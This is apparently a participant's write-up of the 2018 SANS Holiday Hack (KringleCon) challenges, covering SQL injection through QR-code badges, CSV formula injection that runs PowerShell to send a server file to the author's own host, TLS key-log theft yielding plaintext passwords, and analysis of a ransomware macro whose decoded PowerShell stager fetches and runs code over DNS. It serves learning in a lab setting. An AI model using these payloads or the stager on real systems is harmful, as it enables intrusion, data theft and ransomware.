

# Objectives

## 1) Orientation Challenge

Difficulty: 1/5

What phrase is revealed when you answer all of the [questions](https://www.holidayhackchallenge.com/2018/challenges/osint_challenge_windows.html) at the KringleCon Holiday Hack History kiosk inside the castle? For hints on achieving this objective, please visit Bushy Evergreen and help him with the Essential Editor Skills Cranberry Pi terminal challenge.

### Solution

The answers to each of these questions can be found by referencing the [landing pages for past challenges](https://www.holidayhackchallenge.com/past-challenges/).

**Question 1**: In 2015, the Dosis siblings asked for help understanding what piece of their "Gnome in Your Home" toy?

Answers: **firmware**, clothing, wireless adapter, flux capacitor

**Question 2**: In 2015, the Dosis siblings disassembled the conspiracy dreamt up by which corporation?

Answers: Elgnirk, **ATNAS**, GIYH, Savvy Inc

**Question 3**: In 2016, participants were sent off on a problem-solving quest based on what artifact that Santa left?

Answers: Tom Tom Drums, DNA on a mug of milk, Cookie crumbs, **Business Card**

**Question 4**: In 2016, Linux terminals at the North Pole could be accessed with what kind of computer?

Answers: Snozberry Pi, Blueberry Pi, **Cranberry Pi**, Elderberry Pi

**Question 5**: In 2017, the North Pole was being bombarded by giant objects. What were they?

Answers: TCP Packets, **Snowballs**, Misfit toys, Candy canes

**Question 6**: In 2017, Sam the snowman needed help reassembling pages torn from what?

Answers: The bash man page, Scrooges Payroll ledger, System swap space, **The Great Book**

## 2) Directory Browsing

Difficulty: 1/5

Who submitted (First Last) the rejected talk titled Data Loss for Rainbow Teams: A Path in the Darkness? [Please analyze the CFP site to find out](https://cfp.kringlecastle.com/). For hints on achieving this objective, please visit Minty Candycane and help her with the The Name Game Cranberry Pi terminal challenge.

### Solution

Navigating around the site will eventually get you to the `/cfp/cfp.html` page. Removing the trailing page, and navigating to the [https://cfp.kringlecastle.com/cfp/rejected-talks.csv](https://cfp.kringlecastle.com/cfp/rejected-talks.csv) will give you the answer.

## 3) de Bruijn Sequences

Difficulty: 1/5

When you break into the speaker unpreparedness room, what does Morcel Nougat say? For hints on achieving this objective, please visit Tangle Coalbox and help him with Lethal ForensicELFication Cranberry Pi terminal challenge.

### Solution

The door passcode can be found [here at https://doorpasscoden.kringlecastle.com/](https://doorpasscoden.kringlecastle.com/). As the title hints, we can create a de Bruijn sequence for k=4, n=4 at [http://www.hakank.org/comb/debruijn.cgi?k=4&n=4&submit=Ok](http://www.hakank.org/comb/debruijn.cgi?k=4&n=4&submit=Ok). By starting to type this into the door passcode we eventually find the answer triangle-square-circle-triangle.

## 4) Data Repo Analysis

Difficulty: 2/5

Retrieve the encrypted ZIP file from the [North Pole Git repository](https://git.kringlecastle.com/Upatree/santas_castle_automation). What is the password to open this file? For hints on achieving this objective, please visit Wunorse Openslae and help him with Stall Mucking Report Cranberry Pi terminal challenge.

### Solution

Cloning the git repo linked to in the challenge shows that this is a similar challenge to the terminal one. I like to use the graphical `gitk` program so I opened that up and scrolled down until I found the commit with the password. Using that password to decrypt `schematics/ventilation_diagram.zip` gives two images for the vents found in the Kringlecon arena.


```
$ 7z x schematics/ventilation_diagram.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=utf8,Utf16=on,HugeFiles=on,64 bits,12 CPUs x64)

Scanning the drive for archives:
1 file, 740409 bytes (724 KiB)

Extracting archive: schematics/ventilation_diagram.zip
--
Path = schematics/ventilation_diagram.zip
Type = zip
Physical Size = 740409

    
Enter password (will not be echoed):
Everything is Ok                                       

Folders: 1
Files: 2
Size:       837190
Compressed: 740409
$ ll ventilation_diagram/
total 1720
-rw-r--r--    421604 Dec  7 13:37 ventilation_diagram_1F.jpg
-rw-r--r--    415586 Dec  7 13:37 ventilation_diagram_2F.jpg
```

## 5) AD Privilege Discovery

Difficulty: 3/5

Using the data set contained in this [SANS Slingshot Linux image](https://download.holidayhackchallenge.com/HHC2018-DomainHack_2018-12-19.ova), find a reliable path from a Kerberoastable user to the Domain Admins group. What’s the user’s logon name? Remember to avoid RDP as a control path as it depends on separate local privilege escalation flaws. For hints on achieving this objective, please visit Holly Evergreen and help her with the CURLing Master Cranberry Pi terminal challenge.

### Solution

I wasn't really familiar with bloodhound, but this challenge was fairly straightforward. Downloading the VM, opening it up and running bloodhound we're exposed to several features in the GUI. Eventually navigating the "Queries" tab and selecting "Shortest Paths to Domain Admins from Kerberoastable Users" runs a query that should hold our answer (given the verbose question above). Looking at the graphical output, we see exactly one path that doesn't include RDP shown below.


## 6) Badge Manipulation

Difficulty: 3/5

Bypass the authentication mechanism associated with the room near Pepper Minstix. [A sample employee badge is available](https://www.holidayhackchallenge.com/2018/challenges/alabaster_badge.jpg). What is the access control number revealed by the door authentication panel? For hints on achieving this objective, please visit Pepper Minstix and help her with the Yule Log Analysis Cranberry Pi terminal challenge.

### Solution

The door authentication site is hosted at [https://scanomatic.kringlecastle.com/](https://scanomatic.kringlecastle.com/). Using the QRCode provided in Alabaster's test badge, we see that the string in the QRCode is `oRfjg5uGHmbduj2m`. This isn't particularly helpful except that it shows us that there is no special formatting in the decoded QRCode message. Additionally, converting this badge to a png and uploading it to the site returns the error `Authorized User Account Has Been Disabled!`.

From here, I started generating QRCodes with the command line utility `qrencode` and uploading them to the site. First, a simple string of `'` gives a helpful error message with the SQL syntax used in the query. This reveals that the decoded data is dropped directly in the SQL query, so we're looking at a straightforward SQLinjection attack. Trying `' or '1'='1` gives us an error which suggests our injection worked, but doesn't return an "authorized" account. After thinking about it some more, I decided to use a UNION with another query to give me full control over whats returned. This would allow me to return an account which was authorized whithout specifying the user id. This try had valid SQL syntax, but again said we were "Disabled". Finally, looking back at the original query shows that the `enabled` field is queried so if we add another AND condition with `enabled=1` we get a badge which works. With that we've solved the challenge.

```
$ qrencode "oRfjg5uGHmbduj2m" -o test_badge.png 
$ curl -H 'Cookie: resource_id=false' -F 'barcode=@./test_badge.png' https://scanomatic.kringlecastle.com/upload
{"data":"Authorized User Account Has Been Disabled!","request":false}

$ qrencode "'" -o test_badge.png 
$ curl -H 'Cookie: resource_id=false' -F 'barcode=@./test_badge.png' https://scanomatic.kringlecastle.com/upload
{"data":"EXCEPTION AT (LINE 96 \"user_info = query(\"SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '{}' LIMIT 1\".format(uid))\"): (1064, u\"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' LIMIT 1' at line 1\")","request":false}

$ qrencode "' or '1'='1" -o test_badge.png 
$ curl -H 'Cookie: resource_id=false' -F 'barcode=@./test_badge.png' https://scanomatic.kringlecastle.com/upload
{"data":"Authorized User Account Has Been Disabled!","request":false}

$ qrencode "' UNION SELECT first_name,last_name,enabled FROM employees WHERE authorized=1 AND '1'='1" -o test_badge.png 
$ curl -H 'Cookie: resource_id=false' -F 'barcode=@./test_badge.png' https://scanomatic.kringlecastle.com/upload
{"data":"Authorized User Account Has Been Disabled!","request":false}

$ qrencode "' UNION SELECT first_name,last_name,enabled FROM employees WHERE authorized=1 AND enabled=1 AND '1'='1" -o test_badge.png 
$ curl -H 'Cookie: resource_id=false' -F 'barcode=@./test_badge.png' https://scanomatic.kringlecastle.com/upload
{"data":"User Access Granted - Control number 19880715","request":true,"success":{"hash":"ff60055a84873cd7d75ce86cfaebd971ab90c86ff72d976ede0f5f04795e99eb","resourceId":"false"}}
```

## 7) HR Incident Response

Difficulty: 4/5

Santa uses an Elf Resources website to look for talented information security professionals. [Gain access to the website](https://careers.kringlecastle.com/) and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

### Solution

The hints for this challenge were that you would have to construct a CSV file with an command injection embedded within the answer. Googling around for [various](https://payatu.com/csv-injection-basic-to-exploit/) [ways](http://georgemauer.net/2017/10/07/csv-injection.html) [to](https://medium.com/@shatabda/security-csv-or-formula-injection-what-how-88cefba8e3df) [do](https://www.we45.com/blog/2017/02/14/csv-injection-theres-devil-in-the-detail) [this](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20injection) found that the most basic way was to construct a `=cmd|'/C somecommand'!A0` field. I chose to use the powershell command `Invoke-WebRequest` to make a nice formatted request come back to my own server which I could parse in numerous libraries. First, I started off with a simple `work_history.csv` file as follows:

```
"=cmd|' /C Invoke-WebRequest ""http://myipaddress:55555/test""'!A0"
```

I uploaded this in the "careers" form, and waited for a callback to come in on my own server:

```
$ python -m SimpleHTTPServer 55555
Serving HTTP on 0.0.0.0 port 55555 ...
35.227.43.19 - - [...] code 404, message File not found
35.227.43.19 - - [...] "GET /test HTTP/1.1" 404 -
```

With this proof of concept in hand, all I had to do now was exfiltrate the `C:\candidate_evaluation.docx` document from the server. It seemed like getting a large amount of data back with a `GET` request was not going to work, so I decided to look for a simple script that worked with HTTP `POST` requests. Googling for "python simplehttpserver post" - a simple server which can receive and log POST requests - I came across a file which would do the trick in the top couple results (https://gist.github.com/kylemcdonald/3bb71e4b901c54073cbc). I then modified this as follows

```python
import SimpleHTTPServer
import SocketServer

PORT = 55555

last_index = 0

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_POST(self):
        print 'POST', self.path
        content_len = int(self.headers.getheader('content-length', 0))
        post_body = self.rfile.read(content_len)
        print post_body
        global last_index
        f = open('output%d.dat'%last_index,'wb')
        f.write(post_body)
        f.close()
        last_index += 1

Handler = ServerHandler

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
```

and tried the CSV file contents which should have sent back the exact document

```
"=cmd|' /C powershell Invoke-WebRequest ""http://myipaddress:55555/candidate_evaluation.docx"" -Method Post -Infile C:\candidate_evaluation.docx'!A0"
```

and with that I got no response. After debugging a lot to make sure I set everything up correctly, I eventually chained together a couple commands like:

```
"=cmd|' /C powershell Invoke-WebRequest ""http://myipaddress:55555/test1"";Invoke-WebRequest ""http://myipaddress:55555/candidate_evaluation.docx"" -Method Post -Infile C:\candidate_evaluation.docx;Invoke-WebRequest ""http://myipaddress:55555/test2""'!A0"
```

and found that my command was executing - both before and after - but the `Invoke-WebRequest` POST request with a docx was failing. Eventually, I resorted to converting docx to text as a hex dump, and then POSTing that request which seemed to work. That csv looked like

```
"=cmd|' /C powershell dir c:\ > test.txt;Invoke-WebRequest ""http://myipaddress:55555/dir_c"" -Method Post -Infile test.txt;Format-Hex C:\candidate_evaluation.docx > candidate_evaluation.txt;Invoke-WebRequest ""http://myipaddress:55555/candidate_evaluation.txt"" -Method Post -Infile candidate_evaluation.txt;Invoke-WebRequest ""http://myipaddress:55555/candidate_evaluation.docx"" -Method Post -Infile C:\candidate_evaluation.docx;dir . > test.txt;Invoke-WebRequest ""http://myipaddress:55555/test.txt"" -Method Post -Infile test.txt'!A0"
```

Sending this to the server worked, and from there all I had to do was convert the hex dump back to a docx and view the contents.


## 8) Network Traffic Forensics

Difficulty: 4/5

Santa has introduced a web-based packet capture and analysis tool at https://packalyzer.kringlecastle.com to support the elves and their information security work. Using the system, access and decrypt HTTP/2 network activity. What is the name of the song described in the document sent from Holly Evergreen to Alabaster Snowball? For hints on achieving this objective, please visit SugarPlum Mary and help her with the Python Escape from LA Cranberry Pi terminal challenge.

### Solution

For me, this challenge was the most difficult of the hack due to a few logical leaps that needed to be made to find the answer. I had a colleague give me a couple hints but he was nice enough not to spoil the challenge for me and just push me in the right direction.

First off, the packalyzer site lets you register a new user, login, capture some packets, and then download the dump files. I created a couple dummy accounts to poke around view the functionality. I tried various things like looking for parameters to modify and become an 'admin', decrypting my own HTTP2 traffic as described in the [youtube video lecture](https://www.youtube.com/watch?v=YHOnxlQ6zec). I even looked through the main page source code `/` and a couple of the included javascript files like `/pub/js/custom.js` files didn't see anything at first glance. However, after a lot of frustration, you can see that there are a couple comments in the source which hint at a server-side `app.js` file so lets see if we can look for that:

```
//File upload Function. All extensions and sizes are validated server-side in app.js
//File Size and extensions are also validated server-side in app.js.
```

Eventually we find the server-side source at [https://packalyzer.kringlecastle.com/pub/app.js](https://packalyzer.kringlecastle.com/pub/app.js). Some of this file is obfuscated, but we can see some source code which is available to us:

```javascript
#!/usr/bin/node
//pcapalyzer - The web based packet analyzer
const cluster = require('cluster');
const os = require('os');
const path = require('path');
const fs = require('fs');
const http2 = require('http2');
const koa = require('koa');
const Router = require('koa-router');
const mime = require('mime-types');
const mongoose = require('mongoose');
const koaBody = require('koa-body');
const cookie = require('koa-cookie');
const execSync = require('child_process').execSync;
const execAsync = require('child_process').exec;
const redis = require("redis");
const redis_connection = redis.createClient();
const {promisify} = require('util');
const getAsync = promisify(redis_connection.get).bind(redis_connection);
const setAsync = promisify(redis_connection.set).bind(redis_connection);
const delAsync = promisify(redis_connection.del).bind(redis_connection);
const sha1 = require('sha1');
require('events').EventEmitter.defaultMaxListeners = Infinity;
const log = console.log;
const print = log;
const dev_mode = true;
const key_log_path = ( !dev_mode || __dirname + process.env.DEV + process.env.SSLKEYLOGFILE )
const options = {
  key: fs.readFileSync(__dirname + '/keys/server.key'),
  cert: fs.readFileSync(__dirname + '/keys/server.crt'),
  http2: {
    protocol: 'h2',         // HTTP2 only. NOT HTTP1 or HTTP1.1
    protocols: [ 'h2' ],
  },
  keylog : key_log_path     //used for dev mode to view traffic. Stores a few minutes worth at a time
};

//==================================
//Standard Mongoose Connection Stuff
//==================================
const app = new koa();
const router = new Router();
router.use(cookie.default());
app.use(router.routes()).use(router.allowedMethods());
mongoose.connect('mongodb://localhost:27017/packalyzer',{ useNewUrlParser: true });
const Schema = mongoose.Schema;
const userSchema = new Schema({
  name: { type: String, required: true, unique: true },
  email: { type: String, required: true, unique: true },
  password: { type: String, required: true },
  is_admin: { type: Boolean, required: true },
  captures: { type: Array, required: true },
});
const Users = mongoose.model('Users', userSchema);
//Sets Users to be allowed to sniff or just admins
const Allow_All_To_Sniff = true;

//==================================
//Standard Mongoose Connection Stuff
//==================================

Array.prototype.clean = function(deleteValue) {
  for (var i = 0; i < this.length; i++) {
      if (this[i] == deleteValue) {         
      this.splice(i, 1);
      i--;
      }
  }
  return this;
};
var uniqueArray = function(arrArg) {
  return arrArg.filter(function(elem, pos,arr) {
    return arr.indexOf(elem) == pos;
  });
};
function load_envs() {
  var dirs = []
  var env_keys = Object.keys(process.env)
  for (var i=0; i < env_keys.length; i++) {
    if (typeof process.env[env_keys[i]] === "string" ) {
      dirs.push(( "/"+env_keys[i].toLowerCase()+'/*') )
    }
  }
  return uniqueArray(dirs)
}
if (dev_mode) {
    //Can set env variable to open up directories during dev
    const env_dirs = load_envs();
} else {
    const env_dirs = ['/pub/','/uploads/'];
}

// ...

const api_functions = {
    'login':login,
    'logout':logout,
    'users':find_users,
    'register':register,
    'upload':upload,
    'list':list_caps,
    'delete':delete_caps,
    'sniff':sniff_traffic,
    'process':start_process,
  }
  const api_function = async (ctx, next) => {
    var Session = await sessionizer(ctx);
    const action = ctx.params.action;
    if ((Session.authenticated && Object.keys(api_functions).includes(action)) || ['login','register','users'].includes(action) ) {
      if (typeof api_functions[action] === 'function') {
        try{
          await api_functions[action](ctx, next, Session);
        } catch (e) {
          log(e)
          ctx.status=500;
          ctx.body=e.toString();
        }
      } else {
        ctx.body='Not Found';
      }
    } else {
      ctx.status=401;
      ctx.body='Unauthorized';
    }
    await next();
  }

// ...

  //Route for anything in the public folder except index, home and register
router.get(env_dirs,  async (ctx, next) => {
try {
    var Session = await sessionizer(ctx);
    //Splits into an array delimited by /
    let split_path = ctx.path.split('/').clean("");
    //Grabs directory which should be first element in array
    let dir = split_path[0].toUpperCase();
    split_path.shift();
    let filename = "/"+split_path.join('/');
    while (filename.indexOf('..') > -1) {
    filename = filename.replace(/\.\./g,'');
    }
    if (!['index.html','home.html','register.html'].includes(filename)) {
    ctx.set('Content-Type',mime.lookup(__dirname+(process.env[dir] || '/pub/')+filename))
    ctx.body = fs.readFileSync(__dirname+(process.env[dir] || '/pub/')+filename)
    } else {
    ctx.status=404;
    ctx.body='Not Found';
    }
} catch (e) {
    ctx.body=e.toString();
}
});

router
.get('/api/:action', async (ctx, next) => {
await api_function(ctx, next)
})
.post('/api/:action', koaBody({ multipart: true }), async (ctx, next) => {
await api_function(ctx, next)
})

const server = http2.createSecureServer(options, app.callback());
server.listen(443);
```


There are some obvious things to try here, all of which don't help too much.

```
$ curl https://packalyzer.kringlecastle.com/keys/
Not Found$ 
$ 
$ curl https://packalyzer.kringlecastle.com/pub/
Error: EISDIR: illegal operation on a directory, read$ 
$ 
$ curl https://packalyzer.kringlecastle.com/dev/
Error: EISDIR: illegal operation on a directory, read$ 
$ 
$ curl https://packalyzer.kringlecastle.com/dev/SSLKEYLOGFILE
Error: ENOENT: no such file or directory, open '/opt/http2/dev//SSLKEYLOGFILE'$ 
$ 
$ curl https://packalyzer.kringlecastle.com/uploads/
Error: EISDIR: illegal operation on a directory, read$ 
$ 
```

I tried requests like this for probably hours without discovering much more than the fact that a `/dev/` directory existed and I didn't know any of its contents. After a couple more pokes to look at the routing code, I eventually figured out that you could figure out the value of any environment variable. Basically the `load_envs()` function will make it so that the server will resolve any environment variable if you use it as a directory. From here it is a short leap to recovering the name of the SSLKEYLOGFILE and then pulling it from the server.

```
$ curl https://packalyzer.kringlecastle.com/SSLKEYLOGFILE/
Error: ENOENT: no such file or directory, open '/opt/http2packalyzer_clientrandom_ssl.log/'$ 
$ curl https://packalyzer.kringlecastle.com/dev/packalyzer_clientrandom_ssl.log
CLIENT_RANDOM 358732C17ED5EA4A4A7C36953357BBDA05C63E82AD2ECE0800D12B80EEE933E6 9D32F604FA8CEC330DFE6E120D8D4BBCDC6E404E0B131CFDE0916835CED00D734AFC0C64A77AB1EDF860295A30CDD3A8
CLIENT_RANDOM A9B7AAE19B73606A97B5173848498F815195B12B29AEE958D28226285EBE36BA 5BD5BC9DB8DA9C09E3DEC777C9353AF05916C80A0C209A19E7107FC9EEC32E0319F4EBBC424C4DDBAE94698C0454BBEF
CLIENT_RANDOM E3F24F4D8935FE2E062B3EBFF25AD6332E7D3CEE18C2CCE47E015F12FCA5FAB5 73D6BF480CE893CD9FCDFC856BB70AA90112302787AA8170135894E167C714CE41A448FC270A4725CA03096ADD77EC1A
CLIENT_RANDOM 375A2C1B0B862C0030F41328CA5A3463A2091070CB461F1D9D18ED64540C3C1C BE2366CCBAB5335D22FEA0F5AB4106659F8105D74B93CE360FCFF47161A492E00352E2B68C9189EDEA72ADB033132FEB
...
```

With this bit of knowledge, I logged back into the server, created a packet capture, downloaded it, and used the ssl keys from the server at the same time to decrypt the captured packets. This showed a couple different logins on the server:

```
{"username": "alabaster", "password": "Packer-p@re-turntable192"}
{"username": "bushy", "password": "Floppity_Floopy-flab19283"}
{"username": "pepper", "password": "Shiz-Bamer_wabl182"}
```

Logging out once more, and logging in as "alabaster" shows that he had a "super_secret_packet_capture.pcap" in his saved pcaps. I downloaded this, opened it up, extracted the pdf in the capture, opened it up, and saw that it was instructions for piano music. This document came in helpful later once the next challenge was solved, but this piece itself referenced "Mary Had a Little Lamb", the solution to this challenge.

## 9) Ransomware Recovery

Alabaster Snowball is in dire need of your help. Santa's file server has been hit with malware. Help Alabaster Snowball deal with the malware on Santa's server by completing several tasks. For hints on achieving this objective, please visit Shinny Upatree and help him with the Sleigh Bell Lottery Cranberry Pi terminal challenge.

**Catch the Malware**

Difficulty: 3/5

Assist Alabaster by building a Snort filter to identify the malware plaguing Santa's Castle.

**Identify the Domain**

Difficulty: 5/5

Using the Word docm file, identify the domain name that the malware communicates with.

**Stop the Malware**

Difficulty: 3/5

Identify a way to stop the malware in its tracks!

**Recover Alabaster's Password**

Difficulty: 5/5

Recover Alabaster's password as found in the the encrypted password vault.

### Solution

**Catch the Malware**

The first part of this problem involves writing a snort filter to capture malware TCP requests. The server to do this is hosted at [https://docker.kringlecon.com/?challenge=snort](https://docker.kringlecon.com/?challenge=snort) and gives a good description of what is required (where to put your snort rule, where to see captured packets, etc). Using the packet captures we see a bunch of DNS requests and responses, most of them with a very formulaic DNS name - (something).77616E....(something).com.



Writing a snort rule to do this was fairly straightforward once I understoond the format for rules. My first attempt only flagged outgoing DNS requests, but altering the ports from "any any -> any 53" to "any any -> any any" did the trick as shown below.

```
elf@ce2e08abf4cc:~$ echo 'alert udp any any -> any 53 (msg:"malware DNS request"; sid:10000001; rev:001; content:"|26 37 37 36 31 36 45 36 45 36 31|";)' >> /etc/snort/rules/local.rules 
elf@ce2e08abf4cc:~$ 
[i] Snort is not alerting on all ransomware! 
elf@ce2e08abf4cc:~$ 
elf@ce2e08abf4cc:~$ echo 'alert udp any 53 -> any any (msg:"malware DNS request"; sid:10000001; rev:001; content:"|26 37 37 36 31 36 45 36 45 36 31|";)' >> /etc/snort/rules/local.rules 
elf@ce2e08abf4cc:~$ 
[i] Snort is not alerting on all ransomware! 
elf@ce2e08abf4cc:~$ echo 'alert udp any any -> any any (msg:"malware DNS request"; sid:10000001; rev:001; content:"|26 37 37 36 31 36 45 36 45 36 31|";)' >> /etc/snort/rules/local.rules 
elf@ce2e08abf4cc:~$ 
[+] Congratulation! Snort is alerting on all ransomware and only the ransomware! 
[+]  
```

**Identify the Domain**

Talking to Alabaster after finishing the snort challenge will give you a link to the docm file part of the challenge (missing link). Using the docm file, I opened it up in an Ubuntu VM without enabling macros, and then navigated to Tools -> Macros -> Edit Macros. Doing this showed the embedded macro which formed the basis of the malware

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
```

This was clearly compressed and encoded, so undoing that encoding with python gives us the underlying first stage malware.

```
$ ipython
Python 3.7.1 (default, Nov  6 2018, 18:45:35) 
Type 'copyright', 'credits' or 'license' for more information
IPython 7.0.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64, zlib

In [2]: s = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl2
   ...: 3MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S
   ...: +mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

In [3]: s2 = base64.b64decode(s)

In [4]: s3 = zlib.decompress(s2,-15)

In [5]: s3
Out[5]: b'function H2A($a) {$o; $a -split \'(..)\' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E61636F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))'

In [6]: print(s3.decode('ascii'))
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E61636F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))

```

This looks like it will issue a bunch of DNS requests to pull down the main piece of malware from `erohetfanu.com` so for the purposes of this part of the challenge we're done.

**Stop the Malware**

Running through the simple loop of DNS requests and reconstructing the resulting bytes gives the following hexadeimal chunk, which decodes as the long string which follows it:

> 2466756e6374696f6e73203d207b66756e6374696f6e20655f645f66696c6528246b65792c202446696c652c2024656e635f697429207b5b627974655b5d5d246b6579203d20246b65793b24537566666978203d2022602e77616e6e61636f6f6b6965223b5b53797374656d2e5265666c656374696f6e2e417373656d626c795d3a3a4c6f6164576974685061727469616c4e616d65282753797374656d2e53656375726974792e43727970746f67726170687927293b5b53797374656d2e496e7433325d244b657953697a65203d20246b65792e4c656e6774682a383b2441455350203d204e65772d4f626a656374202753797374656d2e53656375726974792e43727970746f6772617068792e4165734d616e61676564273b24414553502e4d6f6465203d205b53797374656d2e53656375726974792e43727970746f6772617068792e4369706865724d6f64655d3a3a4342433b24414553502e426c6f636b53697a65203d203132383b24414553502e4b657953697a65203d20244b657953697a653b24414553502e4b6579203d20246b65793b2446696c655352203d204e65772d4f626a6563742053797374656d2e494f2e46696c6553747265616d282446696c652c205b53797374656d2e494f2e46696c654d6f64655d3a3a4f70656e293b6966202824656e635f697429207b244465737446696c65203d202446696c65202b20245375666669787d20656c7365207b244465737446696c65203d20282446696c65202d7265706c6163652024537566666978297d3b2446696c655357203d204e65772d4f626a6563742053797374656d2e494f2e46696c6553747265616d28244465737446696c652c205b53797374656d2e494f2e46696c654d6f64655d3a3a437265617465293b6966202824656e635f697429207b24414553502e47656e6572617465495628293b2446696c6553572e5772697465285b53797374656d2e426974436f6e7665727465725d3a3a47657442797465732824414553502e49562e4c656e677468292c20302c2034293b2446696c6553572e57726974652824414553502e49562c20302c2024414553502e49562e4c656e677468293b245472616e73666f726d203d2024414553502e437265617465456e63727970746f7228297d20656c7365207b5b427974655b5d5d244c656e4956203d204e65772d4f626a65637420427974655b5d20343b2446696c6553522e5365656b28302c205b53797374656d2e494f2e5365656b4f726967696e5d3a3a426567696e29207c204f75742d4e756c6c3b2446696c6553522e5265616428244c656e49562c2020302c203329207c204f75742d4e756c6c3b5b496e745d244c4956203d205b53797374656d2e426974436f6e7665727465725d3a3a546f496e74333228244c656e49562c202030293b5b427974655b5d5d244956203d204e65772d4f626a65637420427974655b5d20244c49563b2446696c6553522e5365656b28342c205b53797374656d2e494f2e5365656b4f726967696e5d3a3a426567696e29207c204f75742d4e756c6c3b2446696c6553522e52656164282449562c20302c20244c495629207c204f75742d4e756c6c3b24414553502e4956203d202449563b245472616e73666f726d203d2024414553502e437265617465446563727970746f7228297d3b2443727970746f53203d204e65772d4f626a6563742053797374656d2e53656375726974792e43727970746f6772617068792e43727970746f53747265616d282446696c6553572c20245472616e73666f726d2c205b53797374656d2e53656375726974792e43727970746f6772617068792e43727970746f53747265616d4d6f64655d3a3a5772697465293b5b496e745d24436f756e74203d20303b5b496e745d24426c6f636b537a427473203d2024414553502e426c6f636b53697a65202f20383b5b427974655b5d5d2444617461203d204e65772d4f626a65637420427974655b5d2024426c6f636b537a4274733b446f207b24436f756e74203d202446696c6553522e526561642824446174612c20302c2024426c6f636b537a427473293b2443727970746f532e57726974652824446174612c20302c2024436f756e74297d205768696c65202824436f756e74202d67742030293b2443727970746f532e466c75736846696e616c426c6f636b28293b2443727970746f532e436c6f736528293b